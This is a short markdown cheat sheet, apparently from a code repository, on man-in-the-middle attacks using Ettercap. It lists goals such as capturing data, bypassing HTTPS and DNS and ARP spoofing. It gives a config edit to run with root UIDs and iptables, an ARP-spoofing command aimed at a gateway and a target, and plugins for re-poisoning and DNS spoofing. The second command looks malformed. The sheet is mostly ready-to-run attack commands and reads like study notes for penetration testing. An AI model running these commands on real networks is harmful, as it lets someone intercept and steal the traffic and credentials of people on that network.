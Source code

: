  # Overview
- Capture data
- Bypass HTTPS
- DNS Spoofing
- ARP spoofing
- Bypass router-side security features
- Analyse data flows
- Build your own MITM attacks

# Ettercap
`leafpad /etc/ettercap/etter.conf` => Modify the file to use IP tables and set UIDs to 0

For ARP Spoofing*
`ettercap -Tq -M arp:remote -i <interface-name> /<default-gateway>// /<target-ip-address>//`

## Plugins in Ettercap
- autoadd: auto-add new clients**
- repoison_arp: re-pioson clients after arp broadcasts**
- dns_spoof: dns spoof targets**

`ettercap -Tq -M arp:remote -i <interface-name> -5 ///`